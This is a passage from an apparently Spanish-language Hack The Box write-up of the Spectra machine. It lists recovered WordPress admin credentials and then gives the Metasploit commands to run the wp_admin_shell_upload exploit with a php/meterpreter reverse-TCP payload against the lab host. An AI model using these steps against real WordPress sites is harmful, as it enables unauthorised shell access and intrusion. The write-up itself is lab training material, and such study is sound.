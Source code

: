 Estamos dentro!

Eso quiere decir que tenemos unas credenciales validas:

* Ususario: Administrator
* Password: devteam01

## EXPLOTACIÓN

Vamos a usar metasploit para la explotacion, primero vamos a levantar el postgres:

```
systemctl enable --now postgresql
```

verificar estado:

```
systemctl status postgresql
```

vamos a buscar un exploit para wordpress una vez que tenemos credenciales, lo que nos interesa es obtener una shell:

```
search wordpress shell
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/SPECTRA/images/msf1.PNG)

El número 2 se ve interesante vamos a usarlo:

```
use exploit/unix/webapp/wp_admin_shell_upload
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp

show options

set lhost HTB_IP

set username Administrator

set password devteam01

set rhost 10.10.10.229

set rport 80

set targeturi /main

run

```

